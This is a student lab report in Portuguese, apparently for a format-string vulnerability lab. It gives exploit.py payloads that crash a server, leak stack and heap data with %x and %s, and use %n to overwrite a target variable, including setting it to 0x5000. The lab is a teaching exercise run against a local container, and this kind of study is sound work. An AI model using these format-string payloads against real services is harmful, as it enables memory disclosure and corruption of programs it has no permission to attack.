








# Trabalho realizado nas Semanas #6

## Task 1 - Fazendo o Programa Crashar

A tarefa consiste em fornecer uma entrada ao servidor que contenha uma format string, de forma que, quando o programa do servidor tentar imprimir a entrada do utilizador na função `myprintf()`, ele "crashe". Pode-se verificar se o programa `format` crashou ou não observando a saída do contentor. Se `myprintf()` retornar, ele imprimirá "Returned properly" e alguns smiley faces. Se eles nao aparecerem, o programa `format` provavelmente crashou. No entanto, o programa do servidor não irá crashar; o programa `format` crashado é executado num processo filho gerado pelo programa do servidor.

### Procedimento

1.  **Utilizando o comando `echo`**:

    - Primeiro, enviamos uma mensagem simples ao servidor utilizando o comando `echo`.
    - Comando:
      
    - Saída esperada no contentor:
      
    - Neste caso, o programa não "crashou" pois retornou `(^_^)(^_^)  Returned properly (^_^)(^_^)`.

2.  **Utilizando o `exploit.py`**:

- Em seguida, utilizamos um script Python (`exploit.py`) para criar um payload malicioso.
- O script `exploit.py` gera um ficheiro chamado `badfile` que contém a string formatada maliciosa.

- Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  
- Saída esperada no contentor:
  
- Neste caso, o programa "crashou" pois não retornou a string `(^_^)(^_^)  Returned properly (^_^)(^_^)`.

### Código Utilizado no `exploit.py`

```python
# Place the shellcode somewhere in the payload (NOP slide to shellcode)
start = 500
content[start:start + len(shellcode)] = shellcode

############################################################
#
#    Construct the format string here
# 
############################################################

# 32-bit target address 
target_address = 0x080e5068

# Insert the 32-bit target address at the right offset
content[100:104] = (target_address).to_bytes(4, byteorder='little')

# Number of bytes already written by this point
current_written = 104  # bytes already written before %x starts processing

# Smaller desired value to test whether the target address is being written
desired_value = 0x12345678  # A smaller test value

# Calculate the padding required to reach the desired value
padding = (desired_value - current_written) & 0xffffffff

# Construct a more verbose format string to debug (includes more %x specifiers)
format_string = f"%{padding}x%n" + "%.8x " * 12  # Print 12 values from the stack

# Convert format string to bytes and pad with extra characters
format_string = format_string.encode("latin-1").ljust(300, b'A')

# Insert the format string into the payload at a safe offset
content[300:300 + len(format_string)] = format_string

# Save the payload to a file
with open('badfile', 'wb') as f:
    f.write(content)
```
### Explicação da String Formatada

No código acima, utilizamos uma string formatada específica para explorar a vulnerabilidade de string formatada no programa format.c. A string formatada contém os seguintes elementos:

- Endereço de destino: O endereço de memória 0x080e5068 onde queremos escrever.
- Especificador %x: Utilizado para imprimir valores da pilha em formato hexadecimal.
- Especificador %n: Utilizado para escrever o número de caracteres impressos até aquele ponto no endereço fornecido.
- A string formatada é construída de forma a incluir um preenchimento (padding) calculado para alcançar o valor desejado (desired_value). Este preenchimento é necessário para garantir que o número correto de caracteres seja escrito antes de utilizar o especificador %n.

Ao enviar esta string formatada maliciosa ao servidor, conseguimos explorar a vulnerabilidade e fazer com que o programa "crashe".

## Task 2 - Imprimindo Dados da Memoria do servidor

### Task 2.A: Imprimindo Dados da Pilha

O objetivo é imprimir os dados na pilha. Quantos especificadores de formato `%x` são necessários para que o programa do servidor imprima os primeiros quatro bytes da sua entrada? 


#### Código Utilizado no `exploit.py` para Task 2

```python
# Valor único para identificar na pilha
unique_number = 0xbfffeeee 
content[0:4] = (unique_number).to_bytes(4, byteorder='little')

# Usar 64 especificadores %x para examinar a pilha
format_string = "%.8x " * 64 
format_string = format_string.encode("latin-1")
content[8:8 + len(format_string)] = format_string

# Salvar o payload num ficheiro
with open('badfile', 'wb') as f:
    f.write(content)
```

#### Procedimento

1. **Execução do `exploit.py`**:
   - Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  
   - Saída esperada no contentor:
  

##### Resultado

Foram necessários 64 especificadores de formato `%x` para que o programa do servidor imprimisse os primeiros quatro bytes da entrada.

### Task 2.B: Imprimindo o Endereço de Retorno

Há uma mensagem secreta (uma string) armazenada na área de heap, e pode encontrar o endereço desta string na saída do servidor. O seu trabalho é imprimir esta mensagem secreta. Para alcançar este objetivo, precisa colocar o endereço (em formato binário) da mensagem secreta na string formatada. A maioria dos computadores são máquinas little-endian, então para armazenar um endereço `0xAABBCCDD` (quatro bytes numa máquina de 32 bits) na memória, o byte menos significativo `0xDD` é armazenado no endereço mais baixo, enquanto o byte mais significativo `0xAA` é armazenado no endereço mais alto. Portanto, quando armazenamos o endereço num buffer, precisamos salvá-lo nesta ordem: `0xDD`, `0xCC`, `0xBB`, e depois `0xAA`. Em Python, pode fazer o seguinte:

#### Código Utilizado no `exploit.py` para Task 2

```python

# Valor único para identificar na pilha
unique_number = 0x080b4008
content[0:4] = (unique_number).to_bytes(4, byteorder='little')

s = "%x " * 63 + "%s\n"
format_string = (s).encode("latin-1")
content[8:8 + len(format_string)] = format_string

# Save the payload to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

#### Procedimento

1. **Execução do `exploit.py`**:
   - Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  
   - Saída esperada no contentor:
  

##### Resultado

O endereço da mensagem secreta é `0x080b4008`. A mensagem secreta é `A secret message`.

## Task 3 - Modificando a Memória do Programa do Servidor

O objetivo desta tarefa é modificar o valor da variável `target` que está definida no programa do servidor (continuaremos a usar o endereço `10.9.0.5`). O valor original de `target` é `0x11223344`. Suponha que esta variável contém um valor importante, que pode afetar o fluxo de controle do programa. Se atacantes remotos conseguirem alterar seu valor, eles podem mudar o comportamento deste programa. Temos três subtarefas.

### Task 3.A: Alterar o Valor para um Valor Diferente
Nesta subtarefa, precisamos alterar o conteúdo da variável `target` para algo diferente. Sua tarefa é considerada um sucesso se conseguir alterá-la para um valor diferente, independentemente de qual valor seja. O endereço da variável `target` pode ser encontrado na saída do servidor.

### Código Utilizado no `exploit.py` para Task 3.A

```python
# Valor único para identificar na pilha
unique_number = 0x080e5068
content[0:4] = (unique_number).to_bytes(4, byteorder='little')

format_string = "%x " * 63 
format_string += "%n"
format_string = format_string.encode("latin-1")
content[8:8 + len(format_string)] = format_string

# Save the payload to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

#### Procedimento

1. **Execução do `exploit.py`**:
   - Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  
   - Saída esperada no contentor:
  

##### Resultado

O valor da variável `target` foi alterado para `0x0000012f`.

### Task 3.B: Alterar o Valor para `0x5000`
Nesta subtarefa, precisamos alterar o conteúdo da variável `target` para um valor específico `0x5000`. Sua tarefa é considerada um sucesso apenas se o valor da variável se tornar `0x5000`.

### Código Utilizado no `exploit.py` para Task 3.B

```python
# Valor único para identificar na pilha
unique_number = 0x080e5068
content[0:4] = (unique_number).to_bytes(4, byteorder='little') 

content[4:8]  =  ("abcd").encode('latin-1')

# 62 * 325 = 20150 + 330 - 8(primeiros 8 bytes do content) = 20480 -> 0x5000
format_string = "%.325x"*62 + "%.322x%n"
format_string = format_string.encode("latin-1")
content[8:8 + len(format_string)] = format_string

# Save the payload to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

#### Procedimento

1. **Execução do `exploit.py`**:
   - Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  
   - Saída esperada no contentor:
  

##### Resultado

O valor da variável `target` foi alterado para `0x5000`.
  